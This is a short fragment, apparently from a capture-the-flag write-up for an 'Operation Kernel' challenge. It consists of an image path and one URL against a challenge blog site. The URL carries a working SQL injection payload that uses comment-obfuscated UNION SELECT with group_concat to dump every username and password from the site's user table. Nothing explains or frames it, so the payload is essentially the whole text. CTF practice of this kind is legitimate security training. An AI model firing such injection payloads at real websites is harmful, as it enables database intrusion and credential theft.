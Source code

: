 https://secureblog.challenge.operation-kernel.fr/v2/post.php\?id\=0/\*\*/union/\*\*/select/\*\*/1,group_concat\(username\),3,group_concat\(password\),5/\*\*/from/\*\*/user

